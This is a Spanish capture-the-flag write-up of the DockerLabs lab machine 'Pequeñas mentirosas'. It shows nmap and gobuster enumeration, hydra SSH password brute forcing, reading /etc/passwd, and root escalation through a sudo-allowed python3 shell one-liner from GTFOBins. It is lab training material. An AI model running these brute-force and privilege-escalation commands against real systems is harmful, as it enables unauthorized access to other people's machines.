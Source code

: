 # Pequeñas mentirosas

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN PequeñasMentirosas`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_1.jpg) 

Tenemos 2 puertos abiertos, el 22 y el 80.  
Revisemos lo que está funcionando en el puerto 80.  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_2.jpg)  

De acuerdo, intentamos hacer un poco de fuzzing web para ver si podemos obtener algo útil.  
Para ello, ejecutamos el comando:  

`sudo gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_3.jpg)      

Bueno, no obtuvimos nada en absoluto.   
Después de reflexionar un rato, volvemos a analizar el sitio web y probamos si **a** es el nombre de un posible usuario.   
Intentaremos realizar un ataque de fuerza bruta contra SSH.    
Ejecutaremos el comando:  

`sudo hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_4.jpg)   

¡Listo!   
Ya tenemos un usuario y contraseña válidos.   
Entramos por SSH.   
Una vez dentro, probamos los comandos típicos para intentar escalar privilegios:  

`sudo -l`  

`find / -perm -4000 2>/dev/null`  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_5.jpg)     

De acuerdo, debemos buscar otra forma.   
Verificamos si hay otros usuarios en la máquina.   
Ejecutamos `cat /etc/passwd` y encontramos otro usuario llamado **spencer**.  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_6.jpg)       

Intentaremos nuevamente realizar un ataque de fuerza bruta contra SSH.  

`sudo hydra -l spences -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`    

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_7.jpg)        

¡Perfecto!   
Ahora cambiaremos de usuario con el comando `su spencer`.  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_8.jpg)       

Ahora intentamos escalar privilegios para convertirnos en root.    
Ejecutamos el comando `sudo -l`.  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_9.jpg)    

Ahora revisaremos en la web de GTFOBins si podemos aprovechar este binario para convertirnos en root.  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_10.jpg)    

Ahora probaremos a ejecutar el comando:  

`sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'`  

![PM](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/peque%C3%B1as_mentirosas/PM_11.jpg)    

¡Y listo!   
¡Ya somos root!  



